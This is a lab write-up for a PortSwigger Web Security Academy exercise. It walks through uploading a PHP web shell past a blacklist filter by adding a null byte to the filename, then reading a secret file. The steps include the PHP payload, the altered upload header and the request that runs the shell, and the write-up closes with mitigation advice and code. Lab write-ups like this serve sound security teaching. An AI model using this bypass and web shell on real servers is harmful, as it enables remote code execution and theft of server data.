



# 🔥 Lab Write-Up: Web Shell Upload via Obfuscated File Extension (Null Byte Bypass)

## 🧪 Lab Name

**Web shell upload via obfuscated file extension (Practitioner Level)**
PortSwigger Web Security Academy

---

## 🎯 Objective

The goal of this lab is to bypass a blacklisted file extension filter using a **null byte injection** technique. After uploading a malicious PHP web shell, we will retrieve the contents of:

```
/home/carlos/secret
```

---

## 🔐 Credentials Provided

```
Username: wiener
Password: peter
```

---

## 🧠 Vulnerability Overview

The application attempts to block dangerous file extensions like `.php` using a **blacklist approach**. However, the filename validation is flawed:

- ✅ Blacklist includes: `.php`, `.php5`, `.phtml`, etc.
- ❌ The server does not properly sanitize null bytes (`%00`) in the `filename` parameter
- ❌ String termination occurs at the null byte, truncating the filename

This leads to **extension bypass** → **PHP upload** → **Remote Code Execution (RCE)**.

---

## 🧰 Tools Used

- Burp Suite (Proxy, Repeater, HTTP History)
- Web browser
- Text editor (for payload creation)

---

## ⚙️ Exploitation Steps

### 1. Login to Application

Log in using the provided credentials:

```
wiener : peter
```

Navigate to **My Account** → **Avatar upload** section.

---

### 2. Upload Legitimate Image (Baseline)

- Upload a normal image (e.g., `avatar.jpg`)
- In Burp Suite, go to:

```
Proxy → HTTP History
```

- Find the `GET /files/avatars/avatar.jpg` request
- Send this request to **Burp Repeater** (we'll use it later)

---

### 3. Test File Extension Blacklist

Create a simple PHP web shell:

**Filename:** `exploit.php`

**Payload:**
```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Attempt to upload `exploit.php` normally.

**Server response:**
> "You are only allowed to upload JPG and PNG files."

✅ Confirms blacklist is active for `.php` extension.

---

### 4. Capture Upload Request for Manipulation

- Upload any image again (e.g., `test.jpg`)
- In Burp Proxy, find the `POST /my-account/avatar` request
- Send this request to **Burp Repeater**

---

### 5. Modify Filename with Null Byte Bypass

In the `Content-Disposition` header, locate the filename parameter:

**Original:**
```
Content-Disposition: form-data; name="avatar"; filename="test.jpg"
```

**Modified:**
```
Content-Disposition: form-data; name="avatar"; filename="exploit.php%00.jpg"
```

📌 **What happens here:**
- `%00` = URL-encoded null byte (0x00)
- The server sees `.jpg` → passes extension check
- During filesystem write, the null byte terminates the string
- File is saved as `exploit.php` (`.jpg` is ignored)

---

### 6. Send the Malicious Upload Request

Click **Send** in Burp Repeater.

**Server response:**
> "Your image was uploaded successfully. Your image is now available at `/files/avatars/exploit.php`"

✅ Notice: The message refers only to `exploit.php` – null byte + `.jpg` have been stripped.

---

### 7. Execute the Web Shell

- Go back to the other **Repeater tab** containing `GET /files/avatars/avatar.jpg`
- Replace `avatar.jpg` with `exploit.php`
- Modified request:
```
GET /files/avatars/exploit.php HTTP/1.1
```
- Click **Send**

**Response body:**
```
<contents of /home/carlos/secret>
```

Example:
```
2f34a8c9d1e5b7a6c4d8e9f0a1b2c3d4
```

---

### 8. Submit the Secret

- Copy the secret value from the response
- Scroll to the **lab banner**
- Click **"Submit secret"**
- Paste the secret and submit

---

## 🎉 Result

The server executes the uploaded PHP file, reads the sensitive file, and returns its contents.

**Lab Status:** ✔ Solved

---

## 🧠 Technical Deep Dive (Why This Works)

### How the null byte bypass works:

| Step | Action |
|------|--------|
| 1 | Attacker submits: `exploit.php%00.jpg` |
| 2 | Server receives URL-encoded string |
| 3 | Extension check: looks at `.jpg` → allowed |
| 4 | Server decodes `%00` to null byte (`\0`) |
| 5 | String handling functions treat `\0` as terminator |
| 6 | Filesystem writes: `exploit.php` |
| 7 | PHP executes the file when requested |

### Why blacklists fail here:

- Blacklist: `.php`, `.php5`, `.phtml`, `.phar`, etc.
- Bypass: Provide `.jpg` + null byte → real extension hidden

---

## 🚨 Key Security Lessons

| Lesson | Description |
|--------|-------------|
| ❌ Don't use blacklists | Attackers know alternative extensions and bypasses |
| ✅ Use whitelists | Only allow safe extensions like `.jpg`, `.png`, `.gif` |
| ✅ Sanitize null bytes | Reject any filename containing `%00` or `\0` |
| ✅ Rename files server-side | Generate random filenames, ignore user input |
| ✅ Store uploads outside web root | Prevent direct access to uploaded scripts |
| ✅ Disable execution in upload dirs | Use `.htaccess` with `php_flag engine off` (if Apache) |

---

## 🛡️ Mitigation Code Example (Secure Implementation)

```php
// 1. Whitelist allowed extensions
$allowed = ['jpg', 'jpeg', 'png', 'gif'];

// 2. Sanitize filename
$filename = $_FILES['file']['name'];
if (strpos($filename, "\0") !== false) {
    die("Null byte detected");
}

// 3. Validate extension
$ext = strtolower(pathinfo($filename, PATHINFO_EXTENSION));
if (!in_array($ext, $allowed)) {
    die("Invalid file type");
}

// 4. Generate random filename
$new_filename = md5(uniqid() . microtime()) . '.' . $ext;

// 5. Store outside web root
move_uploaded_file($_FILES['file']['tmp_name'], '/secure/uploads/' . $new_filename);
```

---

## 📚 References

- [CWE-434: Unrestricted Upload of Dangerous File Type](https://cwe.mitre.org/data/definitions/434.html)
- [CWE-158: Null Byte Injection](https://cwe.mitre.org/data/definitions/158.html)
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)

---

## 🧾 Conclusion

This lab demonstrates a **classic null byte injection** attack against a blacklist-based file upload filter. By appending `%00.jpg` to a `.php` filename, the attacker bypasses extension validation while preserving the executable nature of the file. The result is **Remote Code Execution (RCE)** leading to full compromise of sensitive server data.

> **Key takeaway:** Never trust user-supplied filenames. Always validate, sanitize, and rename files server-side using whitelist-based validation.

---




